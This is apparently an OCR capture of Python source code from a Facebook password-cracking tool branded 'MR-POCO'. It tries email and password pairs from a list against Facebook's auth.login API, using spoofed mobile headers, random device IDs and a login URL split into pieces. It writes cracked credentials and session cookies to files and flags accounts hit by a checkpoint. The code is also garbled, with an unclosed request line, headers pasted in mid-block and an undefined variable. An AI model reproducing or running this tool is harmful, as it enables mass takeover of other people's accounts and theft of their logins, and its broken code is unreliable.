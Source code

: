                         with requests.Session() as session:
                        	M1 = "[FBAN/FB4A;FBAV/405.0.0.23.72;FBBV/440002512;FBDM/{density=3.0,width=720,height=2176};FBLC/en_Qaag_US;FBRV/359080319;FBCR/Telenor;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1907_19;FBSV/8.1.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]"
                        	data = {"adid": str(uuid.uuid4()),
                        	"format": "json","device_id": str(uuid.uuid4()),
                        	"cpl": "true","family_device_id":str(uuid.uuid4()),
                        	"credentials_type": "device_based_login_password",
                        	"error_detail_type": "button_with_disabled",
                        	"source": "device_based_login",
                        	"email": ids,"password": pas,
                        	"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
                        	"generate_session_cookies": "1",
                        	"meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),
                        	"currently_logged_in_userid": "0","locale": random.choice(["ne_NP","en_US","en_GB","bn_IN","in_ID"]),
                        	"client_country_code": random.choice(["ne_NP","en_US","en_GB","bn_IN","in_ID"]), 
                        	"method": "auth.login","fb_api_req_friendly_name": "authenticate",
                        	"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
                        	"api_key": "882a8490361da98702bf97a021ddc14d"}
                        	headers = {'User-Agent': '[FBAN/FB4A;FBAV/'+str(random.randint(11,99))+'.0.0.'+str(random.randint(1111,9999))+';FBBV/'+str(random.randint(1111111,9999999))+';'f'{M1}',
                       'sec-ch-ua': '"Not-A.Brand";v="99", "Chromium";v="124"',
    'Referer': 'https://mbasic.facebook.com/',
    'Origin': 'https://mbasic.facebook.com',
    'sec-ch-ua-mobile': '?1',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
    'sec-ch-ua-platform': '"Android"',
}

response = requests.get('https://z-m-static.xx.fbcdn.net/rsrc.php/v3/y5/l/0,cross/Lxk3BauoMjS.css', headers=headers
                        url = "https://api.face"+"book.com/au"+"th/lo"+"gin"
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        cookie = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}POCO-OK{R}>{G} '+ids+' | '+pas+'\033[1;97m')
                                        #print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}COOKIES{R}>{G} '+cookie);linex()
                                        open('/sdcard/POCO-FILE-M1-OK.txt','a').write(ids+'|'+pas+'|'+coki+'\n')
                                        oks.append(ids)
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r{R}<{W}={R}>{W}-{R}<{P}POCO-CP{R}>{P} '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/POCO-FILE-M1-CP.txt','a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                        else:continue
                loop+=1
        except Exception as e:
                pass
#--------------------< FILE METHOD M2 >--------------------#
def ___M2___(ids,names,passlist):
        try:
                global loop,oks,cps
                sys.stdout.write(f'\r\r{R}<{W}={R}>{W}-{R}<{G}MR-POCO{R}>{W}-{R}|{T}%s{R}|{W}-{R}|{G}%s{R}|{W}-{R}|{P}%s{R}| '%(loop,len(oks),len(cps)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn